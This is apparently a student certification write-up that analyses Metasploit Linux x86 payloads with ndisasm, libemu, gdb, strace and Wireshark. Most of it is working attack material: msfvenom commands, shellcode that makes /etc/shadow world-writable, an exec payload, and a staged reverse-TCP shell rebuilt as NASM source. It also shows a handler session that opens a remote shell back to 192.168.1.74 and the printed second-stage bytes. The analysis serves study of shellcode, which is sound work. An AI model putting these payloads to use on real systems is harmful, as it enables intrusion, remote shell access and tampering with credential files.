


# Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# Tools installation

## ndisasm

*ndisasm* is included in *nasm* pacakge.

```
$ apt-cache search ndisasm
nasm - General-purpose x86 assembler
```

## libemu

```
sudo apt-get install git autoconf libtool
git clone https://github.com/buffer/libemu
autoreconf -v -i
./configure --prefix=/opt/libemu; 
sudo make install
```

## Metasploit

The Metasploit installation from the latest Kali Linux version is used.

# Metasploit payloads

Let's list all payloads available for a x86 Linux in *metasploit*:

```
root@kali:~# msfvenom --list payloads |grep "linux/x86"
    linux/x86/adduser                                   Create a new user with UID 0
    linux/x86/chmod                                     Runs chmod on specified file with specified mode
    linux/x86/exec                                      Execute an arbitrary command
    linux/x86/meterpreter/bind_ipv6_tcp                 Inject the mettle server payload (staged). Listen for an IPv6 connection (Linux x86)
    linux/x86/meterpreter/bind_ipv6_tcp_uuid            Inject the mettle server payload (staged). Listen for an IPv6 connection with UUID Support (Linux x86)
    linux/x86/meterpreter/bind_nonx_tcp                 Inject the mettle server payload (staged). Listen for a connection
    linux/x86/meterpreter/bind_tcp                      Inject the mettle server payload (staged). Listen for a connection (Linux x86)
    linux/x86/meterpreter/bind_tcp_uuid                 Inject the mettle server payload (staged). Listen for a connection with UUID Support (Linux x86)
    linux/x86/meterpreter/find_tag                      Inject the mettle server payload (staged). Use an established connection
    linux/x86/meterpreter/reverse_ipv6_tcp              Inject the mettle server payload (staged). Connect back to attacker over IPv6
    linux/x86/meterpreter/reverse_nonx_tcp              Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter/reverse_tcp                   Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter/reverse_tcp_uuid              Inject the mettle server payload (staged). Connect back to the attacker
    linux/x86/meterpreter_reverse_http                  Run the Meterpreter / Mettle server payload (stageless)
    linux/x86/meterpreter_reverse_https                 Run the Meterpreter / Mettle server payload (stageless)
    linux/x86/meterpreter_reverse_tcp                   Run the Meterpreter / Mettle server payload (stageless)
    linux/x86/metsvc_bind_tcp                           Stub payload for interacting with a Meterpreter Service
    linux/x86/metsvc_reverse_tcp                        Stub payload for interacting with a Meterpreter Service
    linux/x86/read_file                                 Read up to 4096 bytes from the local file system and write it back out to the specified file descriptor
    linux/x86/shell/bind_ipv6_tcp                       Spawn a command shell (staged). Listen for an IPv6 connection (Linux x86)
    linux/x86/shell/bind_ipv6_tcp_uuid                  Spawn a command shell (staged). Listen for an IPv6 connection with UUID Support (Linux x86)
    linux/x86/shell/bind_nonx_tcp                       Spawn a command shell (staged). Listen for a connection
    linux/x86/shell/bind_tcp                            Spawn a command shell (staged). Listen for a connection (Linux x86)
    linux/x86/shell/bind_tcp_uuid                       Spawn a command shell (staged). Listen for a connection with UUID Support (Linux x86)
    linux/x86/shell/find_tag                            Spawn a command shell (staged). Use an established connection
    linux/x86/shell/reverse_ipv6_tcp                    Spawn a command shell (staged). Connect back to attacker over IPv6
    linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell_bind_ipv6_tcp                       Listen for a connection over IPv6 and spawn a command shell
    linux/x86/shell_bind_tcp                            Listen for a connection and spawn a command shell
    linux/x86/shell_bind_tcp_random_port                Listen for a connection in a random port and spawn a command shell. Use nmap to discover the open port: 'nmap -sS target -p-'.
    linux/x86/shell_find_port                           Spawn a shell on an established connection
    linux/x86/shell_find_tag                            Spawn a shell on an established connection (proxy/nat safe)
    linux/x86/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
    linux/x86/shell_reverse_tcp_ipv6                    Connect back to attacker and spawn a command shell over IPv6
```

# /linux/x86/chmod

For the first shellcode, let's analyze a simple one, using only *ndisasm*.

## Payload options

```
# msfvenom -p linux/x86/chmod --list-options
Options for payload/linux/x86/chmod:
=========================


       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode
[...]
```

## Payload

```
# msfvenom -p linux/x86/chmod FILE=/etc/shadow MODE=0666 -b \x00 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 63 (iteration=0)
x86/shikata_ga_nai chosen with final size 63
Payload size: 63 bytes
Final size of c file: 291 bytes
unsigned char buf[] = 
"\xd9\xf6\xb8\x40\xf8\x6f\x5b\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x0a\x31\x46\x17\x03\x46\x17\x83\x86\xfc\x8d\xae\x9f\x97\x5e"
"\x09\xcd\x8f\x6d\xa9\xf1\x4f\x41\xcc\x85\x2c\xb2\x7d\x0d\xd2"
"\xa8\xee\xba\x14\x6a\x99\xf2\x14\x8c\x59\xa3\xdb\x0c\x33\x52"
"\xbc\xc1\x44";
```
## Analysis

Let's disassemble the code using ndisasm:
```
$ echo -ne "\xd9\xf6\xb8\x40\xf8\x6f\x5b\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x0a\x31\x46\x17\x03\x46\x17\x83\x86\xfc\x8d\xae\x9f\x97\x5e\x09\xcd\x8f\x6d\xa9\xf1\x4f\x41\xcc\x85\x2c\xb2\x7d\x0d\xd2\xa8\xee\xba\x14\x6a\x99\xf2\x14\x8c\x59\xa3\xdb\x0c\x33\x52\xbc\xc1\x44" |ndisasm -u
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call dword 0x16
0000000A  2F                das ;/
0000000B  657463            gs jz 0x71 ;etc
0000000E  2F                das ;/
0000000F  7368              jnc 0x79 ;sh
00000011  61                popad ;a
00000012  646F              fs outsd ;do
00000014  7700              ja 0x16 ;w\00
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

By looking this code, between 0000000A and 00000014 we can read the string */etc/shadow*. The assembly code is:
```ASM
 cdq
 push 0xf ;chmod
 pop eax
 push edx
 call call_chmod
 db 0x2F,0x65,0x74,0x63,0x2F,0x730x68,0x61,0x64,0x6F,0x77,0x00

call_chmod:
 pop ebx
 push dword 0x1b6 ; 666 = (6 × 8²) + (6 × 8¹) + (6 × 8⁰) = 438 -> 0x1B6
 pop ecx
 int 0x80
 push 0x1 ; exit
 pop eax
 int 0x80
```

This shellcode is pretty simple, 
 * EAX is set to 0xf (syscall for chmod)
 * EBX is set to the address at the top of the stack just after the call. So it contains the address of "/etc/shadow\00"
 * ECX is set to 0x1b6 (which is the hexadecimal value of 666 in octal, 666 = (6 × 8²) + (6 × 8¹) + (6 × 8⁰) = 438
 * EDX is set to 0 (using cdq command)

Then chmod is called: int chmod(const char *pathname, mode_t mode);

At the end, the exit syscall is called.
```
 push 0x1 ; exit
 pop eax
 int 0x80
```

# linux/x86/exec without Null bytes

## Payload options
```
# msfvenom -p linux/x86/exec --list-options
Options for payload/linux/x86/exec:
=========================


       Name: Linux Execute Command
     Module: payload/linux/x86/exec
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    vlad902 <vlad902@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    yes       The command string to execute

Description:
  Execute an arbitrary command
```
## Payload
```
# msfvenom -p linux/x86/exec CMD=/bin/ls -b \x00 R |ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 43 (iteration=0)
generic/none chosen with final size 43
Payload size: 43 bytes

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E808000000        call 0x25
0000001D  2F                das
0000001E  62696E            bound ebp,[ecx+0x6e]
00000021  2F                das
00000022  6C                insb
00000023  7300              jnc 0x25
00000025  57                push edi
00000026  53                push ebx
00000027  89E1              mov ecx,esp
00000029  CD80              int 0x80

```

It is important to notice that generate the same payload another time will return another code:

```
# msfvenom -p linux/x86/exec CMD=/bin/ls -b \x00 R |ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes

00000000  BA8C1CEA7C        mov edx,0x7cea1c8c
00000005  DBCF              fcmovne st7
00000007  D97424F4          fnstenv [esp-0xc]
0000000B  5E                pop esi
0000000C  31C9              xor ecx,ecx
0000000E  B10B              mov cl,0xb
00000010  83EEFC            sub esi,byte -0x4
00000013  315611            xor [esi+0x11],edx
00000016  035611            add edx,[esi+0x11]
00000019  E279              loop 0x94
0000001B  76E1              jna 0xfffffffe
0000001D  2418              and al,0x18
0000001F  D593              aad 0x93
00000021  BC37B9D2DA        mov esp,0xdad2b937
00000026  2F                das
00000027  12964CAF0477      adc dl,[esi+0x7704af4c]
0000002D  EF                out dx,eax
0000002E  C6                db 0xc6
0000002F  BA0E0C4AAB        mov edx,0xab4a0c0e
00000034  19D3              sbb ebx,edx
00000036  6A2B              push byte +0x2b
00000038  35B1034566        xor eax,0x664503b1
0000003D  59                pop ecx
0000003E  A0992FF2CF        mov al,[0xcff22f99]
00000043  7B02              jpo 0x47
00000045  74                db 0x74

```

## Analysis

Using *libemu* return C like code very easy to understand.

```
# msfvenom -p linux/x86/exec CMD=/bin/ls -b \x00 R |sctest -vvv -Ss 100000
[...]
int execve (
     const char * dateiname = 0x00416fc4 => 
           = "/bin/sh";
     const char * argv[] = [
           = 0x00416fb4 => 
               = 0x00416fc4 => 
                   = "/bin/sh";
           = 0x00416fb8 => 
               = 0x00416fcc => 
                   = "-c";
           = 0x00416fbc => 
               = 0x00417038 => 
                   = "/bin/ls";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

# linux/x86/shell/reverse_tcp

In Metasploit, payloads like *OS/ARCH/shell/something* are staged payloads while *OS/ARCH/shell_something* are stagedless payloads. Let's analyse a stagged payload. In order to no complicate the analysis of every stage, null byte will not be removed.

## Payload options

```
# msfvenom -p linux/x86/shell/reverse_tcp --list-options
Options for payload/linux/x86/shell/reverse_tcp:
=========================


       Name: Linux Command Shell, Reverse TCP Stager
     Module: payload/linux/x86/shell/reverse_tcp
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 245
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>
    egypt <egypt@metasploit.com>
    tkmru

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
  Spawn a command shell (staged). Connect back to the attacker
[...]
```

## Fun fact

For a meterpreter, the staged payload is smaller:

```
# msfvenom -p linux/x86/meterpreter/reverse_tcp RHOST=192.168.1.74 PORT=4444  -f elf > staged-meterpreter.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
# msfvenom -p linux/x86/meterpreter_reverse_tcp RHOST=192.168.1.74 PORT=4444  -f elf > stagedless-meterpreter.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1107588 bytes
```

This is not the case for a simple reverse shell:
```
# msfvenom -p linux/x86/shell/reverse_tcp RHOST=192.168.1.74 PORT=4444  -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
# msfvenom -p linux/x86/shell_reverse_tcp RHOST=192.168.1.74 PORT=4444  -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
```

We can notice that the stageless payload has the same size for both cases.

## Payload

Let's generate the assembly code:

```
# msfvenom -p linux/x86/shell/reverse_tcp RHOST=192.168.1.74 PORT=4444  -f raw | ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes

00000000  6A0A              push byte +0xa
00000002  5E                pop esi
00000003  31DB              xor ebx,ebx
00000005  F7E3              mul ebx
00000007  53                push ebx
00000008  43                inc ebx
00000009  53                push ebx
0000000A  6A02              push byte +0x2
0000000C  B066              mov al,0x66
0000000E  89E1              mov ecx,esp
00000010  CD80              int 0x80
00000012  97                xchg eax,edi
00000013  5B                pop ebx
00000014  68C0A8014A        push dword 0x4a01a8c0
00000019  680200115C        push dword 0x5c110002
0000001E  89E1              mov ecx,esp
00000020  6A66              push byte +0x66
00000022  58                pop eax
00000023  50                push eax
00000024  51                push ecx
00000025  57                push edi
00000026  89E1              mov ecx,esp
00000028  43                inc ebx
00000029  CD80              int 0x80
0000002B  85C0              test eax,eax
0000002D  7919              jns 0x48
0000002F  4E                dec esi
00000030  743D              jz 0x6f
00000032  68A2000000        push dword 0xa2
00000037  58                pop eax
00000038  6A00              push byte +0x0
0000003A  6A05              push byte +0x5
0000003C  89E3              mov ebx,esp
0000003E  31C9              xor ecx,ecx
00000040  CD80              int 0x80
00000042  85C0              test eax,eax
00000044  79BD              jns 0x3
00000046  EB27              jmp short 0x6f
00000048  B207              mov dl,0x7
0000004A  B900100000        mov ecx,0x1000
0000004F  89E3              mov ebx,esp
00000051  C1EB0C            shr ebx,byte 0xc
00000054  C1E30C            shl ebx,byte 0xc
00000057  B07D              mov al,0x7d
00000059  CD80              int 0x80
0000005B  85C0              test eax,eax
0000005D  7810              js 0x6f
0000005F  5B                pop ebx
00000060  89E1              mov ecx,esp
00000062  99                cdq
00000063  B224              mov dl,0x24
00000065  B003              mov al,0x3
00000067  CD80              int 0x80
00000069  85C0              test eax,eax
0000006B  7802              js 0x6f
0000006D  FFE1              jmp ecx
0000006F  B801000000        mov eax,0x1
00000074  BB01000000        mov ebx,0x1
00000079  CD80              int 0x80
```

This code can be easily turned into a NASM code.

```ASM
global _start   

section .text
_start:
 push byte +0xa
 pop esi
begin:
 xor ebx,ebx
 mul ebx
 push ebx
 inc ebx
 push ebx
 push byte +0x2
 mov al,0x66
 mov ecx,esp
 int 0x80
 xchg eax,edi
 pop ebx
 push dword 0x4a01a8c0
 push dword 0x5c110002
 mov ecx,esp
 push byte +0x66
 pop eax
 push eax
 push ecx
 push edi
 mov ecx,esp
 inc ebx
 int 0x80
 test eax,eax
 jns middle
 dec esi
 jz end
 push dword 0xa2
 pop eax
 push byte +0x0
 push byte +0x5
 mov ebx,esp
 xor ecx,ecx
 int 0x80
 test eax,eax
 jns begin
 jmp end
middle:
 mov dl,0x7
 mov ecx,0x1000
 mov ebx,esp
 shr ebx,byte 0xc
 shl ebx,byte 0xc
 mov al,0x7d
 int 0x80
 test eax,eax
 js end
 pop ebx
 mov ecx,esp
 cdq
 mov dl,0x24
 mov al,0x3
 int 0x80
 test eax,eax
 js end
 jmp ecx
end:
 mov eax,0x1
 mov ebx,0x1
 int 0x80
```

Let's check if the compiled shellcode is working:

```
msf5 > use exploit/multi/handler 
set paymsf5 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > set LHOST 192.168.1.74
LHOST => 192.168.1.74
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.1.74:4444 
[*] Sending stage (36 bytes) to 192.168.1.138
[*] Command shell session 1 opened (192.168.1.74:4444 -> 192.168.1.138:41853) at 2020-02-25 12:29:56 -0500
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
[*] 192.168.1.138 - Command shell session 1 closed.
```

## Analysis

Let's analyse this deeper. Wireshark is running on the attacker system in order to intercept all the trafic. Using gbd we can easily view that */bin/dash* is started in a new process.

```
$ gdb -q ./staged-shellcode
Reading symbols from /home/cervoise/exam/msf/staged-shellcode...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/cervoise/exam/msf/staged-shellcode
process 2691 is executing new program: /bin/dash
```

Running *strace* is very interesting:
```
$ strace ./staged-shellcode
execve("./staged-shellcode", ["./staged-shellcode"], [/* 35 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("192.168.1.74")}, 102) = 0
mprotect(0xbfe92000, 4096, PROT_READ|PROT_WRITE|PROT_EXEC) = 0
read(3, "\211\373j\2Yj?X\315\200Iy\370j\vX\231Rh//shh/bin\211\343RS"..., 36) = 36
dup2(3, 2)                              = 2
dup2(3, 1)                              = 1
dup2(3, 0)                              = 0
execve("/bin//sh", ["/bin//sh"], [/* 0 vars */]) = 0
```
The first *read* receive a string with *//shh/bin*. This is clearly a reversed /bin//sh. This program is called a few lines after with an execve. /bin/sh is a symbolic link to /bin/dash on the targeted system.
```
$ ls -l /bin/sh
lrwxrwxrwx 1 root root 4 Aug 12  2019 /bin/sh -> dash
$ which dash
/bin/dash
```

Wireshark captured returns the data sent to the read function:



```
89fb6a02596a3f58cd804979f86a0b589952682f2f7368682f62696e89e3525389e1cd80
```

```ASM
0:  89 fb                   mov    ebx,edi
2:  6a 02                   push   0x2
4:  59                      pop    ecx
5:  6a 3f                   push   0x3f
7:  58                      pop    eax
8:  cd 80                   int    0x80
a:  49                      dec    ecx
b:  79 f8                   jns    0x5
d:  6a 0b                   push   0xb
f:  58                      pop    eax
10: 99                      cdq
11: 52                      push   edx
12: 68 2f 2f 73 68          push   0x68732f2f
17: 68 2f 62 69 6e          push   0x6e69622f
1c: 89 e3                   mov    ebx,esp
1e: 52                      push   edx
1f: 53                      push   ebx
20: 89 e1                   mov    ecx,esp
22: cd 80                   int    0x80
```
The 8 first lines are the *dup2 call. Then, */bin//sh* is pushed on the stack and called using *execve*ù

Then a *ls* is sent through the reverse shell. *strace* returns that a new process is called:

```
read(0, "ls\n", 8192)                   = 3
stat64("/usr/local/sbin/ls", 0xbfefcfb0) = -1 ENOENT (No such file or directory)
stat64("/usr/local/bin/ls", 0xbfefcfb0) = -1 ENOENT (No such file or directory)
stat64("/usr/sbin/ls", 0xbfefcfb0)      = -1 ENOENT (No such file or directory)
stat64("/usr/bin/ls", 0xbfefcfb0)       = -1 ENOENT (No such file or directory)
stat64("/sbin/ls", 0xbfefcfb0)          = -1 ENOENT (No such file or directory)
stat64("/bin/ls", {st_mode=S_IFREG|0755, st_size=104508, ...}) = 0
clone(child_stack=0, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0xb7589968) = 2746
wait4(-1, [{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0, NULL) = 2746
--- SIGCHLD (Child exited) @ 0 (0) ---
sigreturn()                             = ? (mask now [])
read(0, 
```

The Wireshark capture confirms this:



## Conclusion

This was a quick analysis but we understood that this payload is:
 * connection back
 * wait for another shellcode
 * execute the new instruction using the opened connection
